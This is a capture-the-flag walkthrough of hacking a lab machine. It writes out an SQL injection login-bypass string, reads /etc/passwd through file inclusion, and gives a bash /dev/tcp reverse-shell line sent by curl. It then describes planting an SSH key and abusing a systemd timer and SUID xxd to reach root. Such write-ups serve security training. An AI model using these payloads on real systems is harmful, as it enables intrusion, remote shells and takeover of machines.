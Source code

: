 ```yaml
---
sticker: emoji//1f9c0
---
```


![](Pasted%20image%2020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](Pasted%20image%2020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](Pasted%20image%2020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](Pasted%20image%2020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](Pasted%20image%2020240927154349.png)

Let's visit it:

![](Pasted%20image%2020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](Pasted%20image%2020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](Pasted%20image%2020240927160128.png)


![](Pasted%20image%2020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](Pasted%20image%2020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](Pasted%20image%2020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](Pasted%20image%2020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](Pasted%20image%2020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](Pasted%20image%2020240927161025.png)
![](Pasted%20image%2020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](Pasted%20image%2020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](Pasted%20image%2020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](Pasted%20image%2020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](Pasted%20image%2020240927161803.png)
![](Pasted%20image%2020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](Pasted%20image%2020240927162104.png)

![](Pasted%20image%2020240927162740.png)
Now, i got root authorized key access:

![](Pasted%20image%2020240927162817.png)
just like that, machine is done:

![](Pasted%20image%2020240927162856.png)


